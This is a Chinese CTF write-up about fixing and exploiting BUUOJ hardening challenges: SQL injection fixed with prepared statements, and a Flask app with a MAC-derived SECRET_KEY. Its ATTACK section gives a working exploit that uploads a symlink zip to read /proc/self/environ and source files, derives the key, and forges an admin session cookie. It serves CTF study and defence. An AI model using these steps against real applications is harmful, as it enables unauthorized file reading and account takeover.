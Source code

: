```yaml
---
title: "buuoj加固题 Wp"
slug: "buuoj-fixchalls-wp"
description: "合集合集，长期更新~"
date: 2021-11-07T08:57:29+08:00
categories: ["CTF"]
series: []
tags: ["wp"]
draft: false
toc: true
---
```


buuoj新上了加固题这个分类，也就是线下awdp中fix的部分，只要将靶机中存在的漏洞修复好并通过check的检测即可拿到flag；有一说一，比单纯attack拿flag会简单很多（适合我这种沸物web

下面的wp会先说纯修复角度，再串一下整体的知识点；因为自己水平有限，想尽可能说的清楚一些就会比较啰嗦，见谅QAQ

## Ezsql

### FIX

![image-20211107083450780](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107083450780.png)

200行，太典了，对传入的参数完全没有检测，是个筛子；用预处理的方式修，又可以分为两种形式

### mysql预处理

![image-20211107083655664](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107083655664.png)

其中201行的`ss`指的是绑定SQL参数的类型为string，这一项必不可少而且必须与后面的参数一一对应

### PDO预处理

![image-20211107084309239](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107084309239.png)

PDO预处理属于是通防了，能有效地应对sqli特别是堆叠注入，208行的设置项意为禁用模拟预处理

## [CISCN2021 总决赛]babypython

### FIX

ssh连上后看下目录结构

![image-20211106212456961](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212456961.png)

查看/app/y0u_found_it/y0u_found_it_main.py

![image-20211106212556547](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212556547.png)

11行这不是典中典了？读mac地址就打通了，所以我们直接把SECRET_KEY改为一个又长又乱的随机字符串即可，可以使用[uuid/guid生成器](uuid/guid生成器)来生成

![image-20211106210732859](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106210732859.png)

> ————碎碎念：这里修复的时候可能看脸？我在几天前试的时候用的一模一样的方法，但是怎么都不能过check，今天试了一次就可以了，但是在写wp的时候再复盘就又不可以了……emmm 可能还是哪里的细节出了错但是我没有注意到？给我整不会了属于是

### 关于本题

是个原题，还是个有了包浆的原题，参见->**[[HCTF 2018]Hideandseek](https://buuoj.cn/challenges#[HCTF%202018]Hideandseek)**  |  **[[SWPU2019]Web3](https://buuoj.cn/challenges#[SWPU2019]Web3)**，做过的就知道这他妈真的就一模一样hhhhhhhh

考点在于linux软链接+uuid+flask-session伪造，后者还经常单独出题，比如 **[[CISCN2019 华东南赛区]Web4](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E4%B8%9C%E5%8D%97%E8%B5%9B%E5%8C%BA]Web4)**，都快烤烂了

### 考点一 · uuid&SECRET_KEY

SECRET_KEY通过uuid+伪随机数的方式生成，这个考点可以参考 **[[CISCN2019 华东南赛区]Web4](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E4%B8%9C%E5%8D%97%E8%B5%9B%E5%8C%BA]Web4)**，其中app.py是这样写的

![image-20211106212834438](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212834438.png)

`uuid.getnode()`会以48位二进制长度的正整数形式返回mac地址，linux下mac地址的位置在`/sys/class/net/eth0/address`，读出mac地址后我们也来生成一波伪随机数

![image-20210707204313712](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210707204313712.png)

之后通过flask-session-cookie-manager一把梭即可伪造session值

![image-20210707204240633](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210707204240633.png)

————另外，通常访问不存在目录时SECRET_KEY会出现在请求头中

### 考点二 · linux软链接文件读取&zip压缩包

ln -s是linux中的软链接命令，我们可以制作对应文件的绝对路径的软链接来读文件；当不知道flask工作目录可以使用`/proc/self/cwd`来指向当前进程的目录

```bash
ln -s /proc/self/cwd/flag/flag/.jpg qwe
```

或者通过`/proc/self/environ`文件里包含进程的环境变量，可以从中获取flask的绝对路径，再制作软链接（关于/proc的更多信息可以参见->[/proc目录的妙用](/proc目录的妙用)  |  [LFItoRCE利用总结](https://bbs.zkaq.cn/t/3639.html)，题->[网鼎杯 2020 白虎组]PicDown

```bash
ln -s /proc/self/environ qwe
```

而对于目录内文件的列举也是有方法的（参考->[34C3 CTF Web题 extract0r Writeup](https://blog.csdn.net/keyball123/article/details/105169946)

制作好的软链接通过zip打包

```bash
zip -ry qwe.zip qwe
```

更多题目中的应用可以参见->[记录一道题的多种解法](http://redteam.today/2018/01/20/%E8%AE%B0%E5%BD%95%E4%B8%80%E9%81%93%E9%A2%98%E7%9A%84%E5%A4%9A%E7%A7%8D%E8%A7%A3%E6%B3%95/)

关于这个漏洞的实际应用可以参见->[GitLab 任意文件读取漏洞 (CVE-2016-9086) 和任意用户 token 泄露漏洞](https://paper.seebug.org/104/)

### *ATTACK

exp.py - 1 生成软链接&zip&自动上传

```python
import requests
import os
import sys

url = 'http://0a716e50-1cf2-4cd8-a00f-b70d9987ed64.node3.buuoj.cn/upload'

def makezip():
    os.system('ln -s '+sys.argv[1]+' exp')
    # os.system('zip --symlinks exp.zip exp')
    os.system('zip -ry exp.zip exp')
makezip()

files = {'the_file':open('./exp.zip', 'rb')}
def exploit():
    res = requests.post(url, files=files)
    print(res.text)
exploit()

os.system('rm -rf exp')
os.system('rm -rf exp.zip')
```

```bash
python3 /proc/self/environ
python3 exp.py /app/y0u_found_it.ini
python3 /app/y0u_found_it/y0u_found_it_main.py
python3 /sys/class/net/eth0/address
```

![image-20211106234837193](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106234837193.png)

exp.py - 2 根据mac地址生成伪随机数

```python
import uuid
import random

mac = "02:42:0a:00:cb:06"
temp = mac.split(':')
temp = [int(i,16) for i in temp]
temp = [bin(i).replace('0b','').zfill(8) for i in temp]
temp = ''.join(temp)
mac = int(temp,2)
random.seed(mac)
result = str(random.random()*100)
print(result)
# 36.014406163923596
```

```bash
python3 flask_session_cookie_manager3.py decode -c 'eyJ1c2VybmFtZSI6Imd1ZXN0In0.FGg0EA.rHjESo_p6RCP0eiosSFmF3xEmRc'
python3 flask_session_cookie_manager3.py encode -s '36.014406163923596'  -t "{u'username': u'admin'}"
```

![image-20211106235751916](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106235751916.png)

翻回头看源码，好家伙这里有内鬼

![image-20211106235832895](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106235832895.png)

![image-20211107075450043](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107075450043.png)

返回的并不是真正的flag，而是secret.secret中的内容no flah

![image-20211107075326929](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211107075326929.png)

67行这里会对unzip打开的文件进行检查，只要含有flag字样就会重定向至/?error=1

————这里我感觉原题应该secret.py中的`secret=`直接就能读出来flag，想了好久，再绕一层flag.txt的话我是想不出来什么bypass的方法了，我倾向于是布置环境的时候没有设置这一点（

## ***[CISCN2021 总决赛]easy_python

![image-20211106212057524](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211106212057524.png)

不知道是我的网络问题还是什么未知的bug……check之后就会宕机，只能重新下发靶机

## ***[CISCN2021 总决赛]ezj4va

https://juejin.cn/post/6997314123918737422

还不会java 先空着TAT

